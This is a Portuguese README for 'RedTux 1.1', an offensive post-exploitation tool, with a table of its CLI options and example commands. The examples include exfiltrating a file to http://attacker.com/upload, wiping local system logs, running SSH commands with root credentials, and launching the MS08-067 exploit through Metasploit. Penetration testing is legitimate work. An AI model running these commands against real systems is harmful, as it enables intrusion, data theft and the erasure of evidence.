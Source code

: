 # 🧨 RedTux 1.1

**RedTux 1.1** é uma ferramenta de pós-exploração e reconhecimento ofensivo desenvolvida para auxiliar profissionais de segurança, pentesters e entusiastas em tarefas automatizadas de ataques, exfiltração, e evasão. Esta nova versão traz melhorias significativas em relação à versão anterior.

## 🚀 Novidades na Versão 1.1

### ✅ Melhorias:
- Uso de **`argparse`** para execução via linha de comando (CLI), substituindo o menu interativo anterior.
- Implementação de **tratamento de erros com `try/except`** e **logs detalhados com `logging`**.
- Suporte visual aprimorado com **Colorama** para uma experiência mais clara e amigável.
- Verificações adicionais para evitar falhas silenciosas.

### ➕ Funcionalidades Adicionadas:
- CLI com parâmetros explícitos para cada função.
- Verificações de dependências ausentes (ex: Pwntools, Impacket).
- Mensagens de erro e sucesso mais detalhadas.
- Verificação da existência de arquivos antes da exfiltração.

### ❌ Funcionalidades Removidas ou Limitadas:
- ❌ **Interface interativa com menus** foi removida — agora o uso é exclusivamente via CLI.
- ⚠️ **Pwntools** está desabilitado por padrão — requer instalação manual do módulo (`pip install pwntools`).
- ⚠️ **SMB Enum** desativado por padrão — requer instalação do `impacket` (`pip install impacket`).

## ⚙️ Funcionalidades Suportadas

| Comando                                | Descrição                                              |
|----------------------------------------|--------------------------------------------------------|
| `--scan <IP>`                          | Realiza scan de portas (21, 22, 80, 443)               |
| `--recon <DOMINIO>`                    | Reconhecimento de subdomínios com Sublist3r           |
| `--payload <STRING>`                   | Ofusca uma string em Base64                           |
| `--exfil <ARQUIVO> <URL>`              | Exfiltra arquivo para servidor remoto via `curl`      |
| `--clear-logs`                         | Apaga logs do sistema local                           |
| `--ssh <IP> <USUARIO> <SENHA> <CMD>`   | Executa comandos via SSH remoto                       |
| `--smb <IP> <USUARIO> <SENHA>`         | Enumera compartilhamentos SMB (requer Impacket)       |
| `--exploit <BINÁRIO>`                  | Executa exploit local com Pwntools (requer módulo)    |
| `--msf <PAYLOAD> <RHOST> <LHOST> <LPORT>` | Executa exploit via Metasploit RPC                   |

## 🛠️ Como Usar

### Instalação de Dependências Recomendadas
```bash
pip install colorama paramiko
# Para funções opcionais:
pip install pwntools impacket
```

### Executar uma funcionalidade:
```bash
python redtux\ 1.1.py --scan 192.168.0.1
python redtux\ 1.1.py --recon example.com
python redtux\ 1.1.py --payload "comando malicioso"
python redtux\ 1.1.py --exfil /tmp/dados.txt http://attacker.com/upload
python redtux\ 1.1.py --clear-logs
python redtux\ 1.1.py --ssh 192.168.0.10 root toor "whoami"
python redtux\ 1.1.py --msf windows/smb/ms08_067_netapi 192.168.0.20 192.168.0.5 4444
```

## ⚠️ Avisos

- **Uso restrito:** Ferramenta para fins educacionais e testes em ambientes autorizados.
- **Responsabilidade:** O uso indevido pode ser ilegal. Utilize com ética e responsabilidade.

